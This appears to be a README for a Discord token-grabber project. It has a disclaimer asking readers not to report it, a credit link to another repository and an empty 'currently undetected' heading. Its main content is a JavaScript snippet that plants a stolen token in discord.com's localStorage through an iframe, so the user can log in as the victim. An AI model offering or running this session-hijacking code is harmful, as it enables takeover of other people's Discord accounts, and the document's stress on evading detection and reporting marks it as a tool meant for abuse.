

this is for my own educational purposes only, please dont redistribute this or report me

im not responsible for what you do

credits:
- https://github.com/NullBulgeOfficial/Discord-C-


## currently undetected:


## token usage

you can login with the token on discord.com/login page by running this command
```js
let token = "";
 
function login(token) {
setInterval(() => {
document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
    }, 50);
    setTimeout(() => {
      location.reload();
    }, 2500);
  }
login(token);
```
